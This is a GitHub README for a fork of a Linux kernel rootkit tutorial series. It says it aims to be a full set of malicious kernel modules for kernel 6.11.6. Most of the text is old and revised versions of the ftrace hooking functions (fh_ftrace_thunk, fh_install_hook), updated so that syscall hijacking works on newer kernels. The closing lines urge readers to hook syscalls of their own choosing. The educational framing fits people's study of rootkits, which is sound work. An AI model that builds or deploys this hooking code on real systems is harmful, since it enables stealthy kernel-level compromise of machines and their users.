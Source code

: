 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another other world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes for fh_ftrace_thunk()

  - This is the old function and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

# Changes to fh_install_hook()

 - This is the old snippet below of the function:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION_SAFE
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```
  - This is the revised snippet of code for the function below:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```

# Extra

  - Feel free to add to this, the whole point of this is to help people thats scraping the internet for malicious code examples to examine.
  
  - Experiment with this repo and grasp the concept of whats going on and venture into hooking your own syscall of choice and having fun with that syscall. Make things work with that hooked syscall and big FYI if you dont already know this USE THE INTERNET TO YOUR ADVANTAGE, meet others.

---
